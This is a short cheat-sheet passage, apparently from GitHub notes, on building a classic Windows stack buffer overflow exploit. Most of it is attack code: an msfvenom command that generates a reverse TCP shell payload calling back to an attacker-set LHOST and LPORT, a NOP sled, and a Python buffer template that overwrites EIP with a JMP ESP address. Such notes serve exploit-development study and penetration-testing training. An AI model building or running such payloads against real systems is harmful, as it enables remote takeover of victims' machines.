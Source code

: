 Addresses in little endian format, so address `0xabcdef10` becomes `\x10\xef\xcd\xab`.

### Generate shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT EXITFUNC=thread -f py -b '\x00'
```

### Add NOP sled

Just to ensure the payload is referenced correctly.

```python
nopsled = '\x90' * 16
```

### Finalize exploit

At a high level, your buffer becomes something like the following for a simple BoF.

```python
buffer = "A" * 1337 # Identified overflow offset
buffer += "\x10\xef\xcd\xab" # EIP, pointing to your chosen instruction (e.g. JMP ESP)
buffer += "\x90" * 16 # NOP sled
buffer += exploit_code
```